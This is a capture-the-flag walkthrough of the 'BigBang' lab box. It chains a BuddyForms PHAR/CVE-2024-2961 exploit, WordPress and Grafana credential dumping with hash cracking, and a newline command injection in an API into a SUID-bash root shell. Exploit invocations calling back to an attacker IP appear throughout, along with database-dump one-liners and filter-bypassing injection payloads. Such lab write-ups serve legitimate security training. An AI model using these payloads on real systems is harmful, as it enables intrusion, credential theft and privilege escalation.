



BigBang

BigBang was a hard Linux-based challenge that combined web application vulnerabilities with container security and API exploitation to create a multi-stage privilege escalation path. Initial reconnaissance revealed a WordPress blog with a vulnerable BuddyForms plugin (version 2.7.7). By exploiting CVE-2024-2961, a PHAR deserialization vulnerability, I gained remote code execution on the web server. This initial foothold provided access as the www-data user.
After examining the WordPress configuration files, I discovered database credentials that allowed me to extract and crack user hashes from the WordPress database running in a Docker container. The credentials for user "shawking" (password: quantumphysics) granted SSH access to the target system.
Further enumeration from shawking's account revealed a Grafana instance running on port 3000. By examining the Grafana database stored in /opt/data, I extracted and cracked the "developer" user's password (bigbang), which provided additional SSH access.
In the developer's home directory, I discovered an Android APK file that, when decompiled, revealed an app running on port 9090. Analysis of the application code showed that the /command endpoint was vulnerable to command injection through improper handling of newline characters in the "output file" JSON field .
By crafting specific payloads that bypassed character filtering, I exploited this vulnerability to create a SUID binary, which provided root access and completed the challenge. The box demonstrated the importance of proper input validation, the risks of having lax permissions on sensitive files, and how seemingly minor vulnerabilities can be used to achieve privilege escalation.
User flag

Nmap scan reveals only 2 ports. SSH and HTTP.
Footprinting the web stack
Its a website of a physics university/blog. I'll take a look around the main page.

Right below the form, I can see a mention of buddyforms. A form builder compatibile with wordpress.
Which is also mentioned at the bottom of the page.
I will check out the website's source code as well.
I used the search functionality to search for the "wordpress" string in the source code, and almost immediately found the WP version.
<script src="http://blog.bigbang.htb/wp-content/plugins/buddyforms/assets/resources/featured-image/featured-image-initializer.js?ver=2.7.7" id="buddyforms_featured_image_initializer-js"></script>
And the buddyforms version as well.
Gaining RCE on the box via buddyforms CVE
I found out that buddyforms 2.7.7 has a PHAR deserialization CVE, but not only that.
https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/buddyforms/buddyforms-277-phar-deserialization
Back when the box was released, this part definitely took me the longest to figure out.
https://github.com/ambionics/cnext-exploits?tab=readme-ov-file
The cnext exploit had to be modified in a few ways, but with some help, I managed to do it.
Sadly, I cannot show my script as I've lost it after my 1st kali VM broke. (Always make backups!)
Now however, there are many PoCs floating around github. It will be much simpler to get code execution.
https://github.com/suce0155/CVE-2024-2961_buddyforms_2.7.7
Run the python script:
python buddyforms_2.7.7_cnext_exploit.py http://blog.bigbang.htb/wp-admin/admin-ajax.php 10.10.16.18 9001
Dumping the wordpress database
I couldn't find the database while browsing directories. I'll read the wp-config.php file, as that is where the details should be.
#snippet
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );
/** Database username */
define( 'DB_USER', 'wp_user' );
/** Database password */
define( 'DB_PASSWORD', 'wp_password' );
/** Database hostname */
define( 'DB_HOST', '172.17.0.1' );
/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );
/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
It looks like the database is hidden in a docker container of some sorts. Mysql is not available to my user, so I'll have to get by somehow.
I'll take the credentials from the .php file, and I will try to send a raw query to the container with php.
php -r '
$mysqli = new mysqli("172.17.0.1", "wp_user", "wp_password", "wordpress");
if($mysqli->connect_error) { die("Connect Error: " . $mysqli->connect_error); }
$result = $mysqli->query("SHOW TABLES");
while ($row = $result->fetch_array()) { echo $row[0] . "\n"; }
'
That worked! In the same way, I can exfiltrate users and credentials. I'll adjust the query a little bit.
php -r '
$mysqli = new mysqli("172.17.0.1", "wp_user", "wp_password", "wordpress");
$res = $mysqli->query("SELECT user_login, user_pass FROM wp_users");
while ($row = $res->fetch_assoc()) { echo $row["user_login"] . " : " . $row["user_pass"] . "\n"; }
'
There are two hashes. I'll copy them over to my box so that I can crack them with hashcat.
shawking:quantumphysics
I'll try to SSH into the box with these credentials.
Root flag
Shawking cannot do much on the box. No sudo commands, no groups. Nothing interesting in his home folder either.
I noticed two intersting active ports. 3000 and 9090. I'll forward them both to my machine.
Dumping the grafana database
The service on port 9090 returned a Not Found error. running a curl with --head shows that its a python app/server.

Grafana is running on port 3000. It is an open-source analytics and interactive visualization web application used for monitoring application performance.
Shawking's credentials don't work with grafana. I'll search the box for a different set.
Soon after that, I found the grafana database in /opt/data.
I'll transfer it onto my box with scp.
scp shawking@10.10.11.52:/opt/data/grafana.db .
There are two users in the database, alongside their hashes.
The hashes won't be cracked in this format. grafana stores its hash digests in hexadecimal, and the salts in plaintext.
I'll use grafana2hashcat in order to convert the developer hash into a crackable format.
https://github.com/iamaldi/grafana2hashcat
I'll copy the hash into a separate file, in a hash,salt format.
7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960,4umebBJucv
Now I will run the script to convert it.

And now to crack it with hashcat.
developer:bigbang
Investigating the .apk file
In developer's home folder, there is an .apk file. I'll copy it over the same way as before.
I will use apktool to "unpack" the apk file.
Then, I'll use a recursive grep to search for strings inside the unpacked folder.
Found a login endpoint. I'll use 'http://app.bigbang.htb:9090' as a string for my next grep search, in hopes of uncovering more endpoints.

There is also a /command endpoint.
And I even got some extra information about that endpoint.
Abusing the vulnerable endpoint
I used curl to interact with the login endpoint from the developer ssh session.
And I got an access token. I'll append it to my curl command, and I will attempt to interact with the /command endpoint.
After a while, I found a way to get code execution via the command endpoint.
The output file parameter does not sanitize user's data input. By placing a \n newline character, everything after it will be "pushed" into a new line and treated as a command.
To exploit this, I can create a SETUID copy of bash in /tmp. If this works, It will have root privileges.
However, it seems like my attempt was stopped by a filter of some sort.
"test.png\n cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"}
The filter treats "+" as a dangerous character. I deduced this simply by eliminating each piece of the command one at a time, until the error was gone.
I changed the command a little, this time using a numerical representation of the SETUID bit.
"test.png\n cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash"}
Still, it kept getting flagged by the filter. Another deduction showed that the filter was also flagging the "&" characters.
Its no problem at all though. I can just remove the "&" characters entirely and split the payload into two curl commands.
"test.png\n cp /bin/bash /tmp/rootbash"}'
First one to create the rootbash.
"test.png\n chmod 4755 /tmp/rootbash"}
And the second one to give it the SETUID bit.
Rooted!